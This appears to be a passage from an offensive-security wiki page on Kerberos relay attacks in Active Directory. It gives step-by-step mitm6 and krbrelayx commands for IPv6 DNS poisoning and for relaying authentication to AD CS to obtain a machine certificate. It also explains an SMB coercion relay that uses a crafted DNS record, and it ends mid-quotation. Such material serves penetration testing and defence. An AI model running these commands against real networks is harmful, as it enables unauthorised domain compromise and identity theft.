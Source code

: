 * The HTTP/S services [from AD CS](https://www.thehacker.recipes/ad/movement/adcs/unsigned-endpoints#Web-endpoint-ESC8) and [SCCM](https://www.thehacker.recipes/ad/movement/sccm-mecm/privilege-escalation) can be very good targets as HTTP does not expect a request for a signature.
* Many services are actually mapped to the `HOST` service, and this is the case with `DNS`. So any host with a `HOST` service becomes valid.

Here are the steps to follow to set up a Kerberos relay using IPv6 DNS poisoning:

1. First, configure [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python), specifying the AD CS host as the target, and specifying the IPv4 address of the interface connected to the network, as the interface to bind the DNS server.
2. Then configure [mitm6](https://github.com/dirkjanm/mitm6) (Python), using the AD CS host name as the relay target.
3. During the poisoning, the victim will attempt to modify its DNS record, which will be refused, and will then authenticate itself via Kerberos.
4. The client establishes a TCP connection with [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python), and sends a `TKEY` request containing the Kerberos ticket.
5. Authentication is then relayed to AD CS.

```
# In a first terminal, waiting for an authentication to relay
krbrelayx.py --target http://$ADCS_FQDN/certsrv/ -ip $ATTACKER_IP --victim $TARGET_SAMNAME --adcs --template Machine

# In a second terminal, poisoning the victim
mitm6 -i $ATTACKER_IP -d $DOMAIN -hw $TARGET_FQDN --relay $ADCS_FQDN -v
```

### Abuse from a coerced authentication <a href="#abuse-from-a-coerced-authentication" id="abuse-from-a-coerced-authentication"></a>

As demonstrated by Synacktiv in [this blog post](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx), it is also possible to relay a Kerberos authentication from, and to, unsigned SMB services, when it comes [from a coercion](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/).

When an SMB client builds the SPN from the service class and its name, the `SecMakeSPNEx2` method is called, which calls the `CredMarshalTargetInfo` API function. This API takes a list of target information in a `CREDENTIAL_TARGET_INFORMATION` structure, _marshalizes_ it in Base64, and appends it to the end of the actual SPN.

For the hostname `target` and the class of service `cifs`, the returned SPN will look like :

```
cifs/target1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAtargetsBAAAA
```

So, if an attacker registers the DNS record `target1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAtargetsBAAAA`, the client will be able to request a ticket for `cifs/target`, but will connect to `target1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAtargetsBAAAA`. By default, any authenticated user is allowed to create [new DNS records in the ADIDNS](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing).

In his [original article](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html), James Forshaw notes this point:
